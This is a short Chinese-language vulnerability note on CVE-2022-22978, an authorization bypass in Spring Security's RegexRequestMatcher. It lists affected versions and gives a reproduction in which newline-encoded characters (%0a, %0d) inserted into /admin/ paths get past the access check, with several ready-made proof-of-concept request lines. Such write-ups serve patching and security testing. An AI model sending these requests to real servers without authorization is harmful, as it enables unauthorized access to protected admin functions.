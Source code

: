 # VMware Spring Security 身份认证绕过漏洞 CVE-2022-22978

## 漏洞描述

VMware Spring Security是美国威睿（VMware）公司的一套为基于Spring的应用程序提供说明性安全保护的安全框架。VMware Spring Security存在授权问题漏洞，该漏洞源于在应用程序中使用 RegexRequestMatcher 以及正则表达式的通配符（**.**）处理不受信任的输入时存在输入验证错误。

参考链接：

- https://xz.aliyun.com/t/11473

## 漏洞影响

```
Spring Security 5.5.x < 5.5.7 
Spring Security 5.6.x < 5.6.4 
Spring Security 其他低版本同样受影响
```

## 漏洞复现

正常访问/admin/下任何路由均会提示403。

在/admin/下任何路由中，插入`%0a`或者`%0d`,即可绕过验证访问页面。

poc：

```
/admin/%0a%0d
```

例如：

```
GET /admin/%0atest HTTP/1.1
```

```
GET /admin/%0dtest HTTP/1.1
```

```
GET /admin/%0a%0d%0dtest HTTP/1.1
```

